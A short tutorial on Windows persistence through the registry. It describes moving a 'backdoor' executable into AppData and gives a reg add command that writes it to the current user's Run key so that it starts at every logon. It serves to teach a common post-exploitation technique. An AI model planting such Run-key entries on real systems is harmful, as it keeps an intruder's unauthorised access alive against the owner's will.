 # Persistence Using Registries

## Overview

Depending on the registries a low privileged user might be able to edit them. With this in mind, an attacker could edit the registries to achieve persistence. An example of an editable registry is: 

	HKEY_CURRENT_USER\Software\Microsoft\Windows\CurrentVersion\Run

## Method

1. First, let's move the backdoor to the AppData folder. You can either move it from the Downloads folder or upload it again to the AppData folder.

2. Drop into a shell and use the reg add function to create a registry that will run our backdoor as follows:

	add "HKEY_CURRENT_USER\Software\Microsoft\Windows\CurrentVersion\Run" /v Backdoor /t REG_SZ /d "C:\Users\[USERNAME]\AppData\Roaming\backdoor.exe

3. If done correctly you will recieve the message: "The operation completed successfully" 
